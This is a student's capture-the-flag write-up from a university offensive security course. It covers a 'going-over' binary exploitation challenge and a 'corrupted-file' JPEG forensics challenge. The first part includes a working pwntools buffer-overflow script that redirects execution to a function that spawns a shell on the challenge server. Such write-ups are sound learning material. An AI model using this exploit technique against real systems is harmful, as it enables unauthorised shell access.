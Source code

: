 # Introduction

I am a Cyberfellow (MS in Cybersecurity) at New York University (NYU). I am taking offensive security in Spring 2022. This class requires that I participate in a CTF (Capture The Flag) competition and produce a write-up. I and two of my classmates participated in JerceyCTFII that was hosted on April 9 - 10, 2022. Mitchell has a nice [write-up](https://github.com/Cellolizard/CTF-Writeups/tree/main/jerseyctfII) of the work that we did as a team. I would focus on two challenges that I was able to solve independently.

The class requirement was that the challenges should be moderately challenging, usually more than 300 points.

# going-over (350 points)
**Challenge:** My friends said they were going on a trip but I think they ran into some trouble. They sent me these two files before we lost contact (src.c and going-over). nc 0.cloud.chals.io 10197 

**Solution:** The 'going-over' was a binary file. I used the tool 'cutter' to get a general understanding of the binary. The overview tab was useful to know that there was no canary, no PIE, and NX was enabled.  

![Overview](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/go-cutter-overview.png)

The **Strings** tab revealed that the binary had the string '/bin/sh'.  

![Strings](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/go-cutter-string.png)

The **Imports** tab revealed two interesting functions: a) grets, indicating that there was possibility for Buffer Overflow (BOF), and b) execve, ability to launch shell using already found string '/bin/sh'. 

![Imports](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/go-cutter-imports.png)

Opening the binary in Ghidra, I found that there was a buffer of size 12 bytes.  

![Ghidra main](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/go-ghidra-main.png)

With all the information discovered so far, I had a hunch that I would have to perform a stack overflow and overwrite the return address so that execve can be executed with '/bin/sh' as parameter. The next question was how to achieve it. With further digging, I found the function grab_ledge at address 004011b6. This function was executing execve with '/bin/sh' as parameter.  

![grab_ledge](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/go-ghidra-ledge.png)

I had all the pieces together now. I wrote and executed the python code below that revealed the flag.

```python
from pwn import *
p = process('./going-over')
p = remote("0.cloud.chals.io", 10197)
p.recvuntil("but I can't find it!!!")
exploit = b'A'*20+ b'\xb6\x11\x40\x00\x00\x00\x00\x00'
print(exploit)
p.sendline(exploit)
p.interactive()
```
# corrupted-file (400 points)
**Challenge:** Can you find a way to fix our corrupted .jpg file? 

**Solution:** I tried opening the given "flag_mod.jpg" file and got the error below.

![image](https://user-images.githubusercontent.com/8462520/163688877-24ba57f0-7e95-4155-8151-c9f253958222.png)

I then googled for any any CTF write-ups for corrupted images and came across [Corrupt Transmission](https://github.com/blinils/CTF/blob/master/CTF-Jeopardy/2016-icectf/challenges/corrupt-transmission-50/README.md). This gave me some good ideas to work on and introduced me to the tool **exiftool**. The write-up was for .png file, but I was dealing with .jpg file. With further research, I came across [JPG Sihgnature Format](https://www.file-recovery.com/jpg-signature-format.htm#:~:text=JPEG%2FJFIF%2C%20it%20is%20the,hex%20values%20FF%20D8%20FF). I learnt that the .jpg file should start with an image marker which always contains the marker code hex values FF D8 FF E0. I then opened the given file using **xxd**

<img width="481" alt="image" src="https://user-images.githubusercontent.com/8462520/163689310-45970ce4-ab47-46b1-8c79-8ee5ab5ddd1c.png">

The given file was starting with **00 10 4a 46** rather than required bytes **FF D8 FF E0**. Used the command ```printf '\xff\xd8\xff\xe0' | cat - flag_mod.jpg > new_flag.jpg``` to create a new .jpg file with correct signature. I was able to open the modified file and it revealed the flag.



# Conclusion
It was my first time participating in a CTF. It was exciting to see that I could apply my learning from the class. I had 
never done any forensic challenges before. However, with some research, I was able to solve the "corrupted-file" 
challenge. It was rewarding as well as boosted my confidence. Last but not least, it was a great learning experience working 
with Mitchell and Alex. Looking forward to participating in more CTF competitions in the future.
